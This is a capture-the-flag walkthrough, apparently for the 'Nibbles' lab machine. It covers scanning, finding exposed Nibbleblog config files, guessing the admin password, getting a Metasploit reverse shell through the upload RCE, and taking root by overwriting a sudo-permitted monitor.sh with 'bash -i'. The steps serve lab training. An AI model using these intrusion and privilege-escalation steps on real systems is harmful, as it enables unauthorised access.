 <b>

# Information Gathering
First i ping the target 4 times to ensure good connection:<br>
`ping -c 4 10.10.10.75`
```
PING 10.10.10.75 (10.10.10.75) 56(84) bytes of data.
64 bytes from 10.10.10.75: icmp_seq=1 ttl=63 time=109 ms
64 bytes from 10.10.10.75: icmp_seq=2 ttl=63 time=108 ms
64 bytes from 10.10.10.75: icmp_seq=3 ttl=63 time=108 ms
64 bytes from 10.10.10.75: icmp_seq=4 ttl=63 time=108 ms
```
After that i run nmap with `-Pn` to not check if the host is alive and `-sVC` for version and script enumeration:<br>
`nmap -sVC -Pn 10.10.10.75`
```
Nmap scan report for 10.10.10.75
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Then i ran `whatweb` to gather additional information about the website:<br>
`whatweb -a 3 10.10.10.75`
```
http://10.10.10.75 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
```
After checking the source code for the page i found this:<br>
![image](https://github.com/user-attachments/assets/cea217ff-0f73-4330-9765-f02383d391aa)

Browsing to the directory revealed blog page<br>
I ran feroxbuster which showed that the directories were readable:
![image](https://github.com/user-attachments/assets/b6297995-cf2b-42fd-96a0-f940124852d8)

The important one was this:<br>
`http://10.10.10.75/nibbleblog/content/private/`

Two of them revealed login information:
```
http://10.10.10.75/nibbleblog/content/private/users.xml
http://10.10.10.75/nibbleblog/content/private/config.xml
```
And one revealed the version of `Nibbleblog` was 4.0.3:<br>
`http://10.10.10.75/nibbleblog/README`
# Vulnerability Assessment
Looking up "`Nibbleblog 4.0.3 explot`" gave me this:<br>
https://www.exploit-db.com/exploits/38489

The exploit allows RCE due to upload vulnerability that allows to upload a reverse shell<br>
It is mentioned that there is `metasploit` module and for the exploit to work, we need to be authenticated<br>
Unfortunetly we only have username `admin`, after trying a couple common combinations:<br>
- `admin:admin`
- `admin:root`
- `admin:test`

I saw this in `http://10.10.10.75/nibbleblog/content/private/config.xml`:<br>
![image](https://github.com/user-attachments/assets/6257d40c-d085-4340-bf8d-e178299a1f8b)

And after trying `admin:nibbles` at the login form (`http://10.10.10.75/nibbleblog/admin.php`)<br>
We got redirected to the dashboard
# Exploitation
Now that we have the credentials, we can fire `msfconsole` and use the module to get a reverse shell:<br>
![image](https://github.com/user-attachments/assets/6c3f9f09-0807-4cd0-854f-fcc12197fa27)
Select it:
![image](https://github.com/user-attachments/assets/4873443b-6381-47af-bf15-b14a9e9fd95e)
And finally set the options & run it:<br>
![image](https://github.com/user-attachments/assets/33fb797a-cc19-4864-be9c-ca613cdd60d8)
Once the terminal shows `meterpreter >` we can type "`shell`" to get a reverse shell<br>
# Post-Exploitation
After that we can run `python3 -c 'import pty; pty.spawn("/bin/sh")'` in order to get interactive shell
We run as the user "`nibbler`" and going to the `/home` directory and inside nibbler, we can get the `user.txt` flag
<hr>

After running `sudo -l` we get this output:
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is also a zip file called `personal.zip`<br>
Running `unzip personal.zip` and then navigating through the directories, we find `monitor.sh`<br>
If we do `ls -la` we notice that we have the permission to not only read but also write<br>

In that case, we can just do:
- `rm monitor.sh`
And create new one with `bash -i` inside like so:
- `echo "bash -i" > monitor.sh`

Then by allowing execution and running it, we can become root:
- `chmod +x monitored.sh`
- `sudo ./monitor.sh`

The root flag is found at `/root/root.txt`
</b>
